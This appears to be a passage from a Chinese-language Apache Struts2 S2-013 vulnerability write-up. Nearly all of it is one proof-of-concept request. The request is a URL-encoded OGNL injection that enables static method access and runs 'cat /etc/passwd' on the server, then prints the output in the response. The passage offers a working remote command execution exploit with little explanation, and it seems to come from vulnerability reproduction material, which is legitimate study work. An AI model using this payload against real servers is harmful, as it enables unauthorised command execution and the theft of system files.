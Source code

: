 ![s2-013-2](images/s2-013-2.png)

任意命令执行 PoC，读取 `/etc/passwd` 文件

```
/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

![s2-013-3](images/s2-013-3.png)
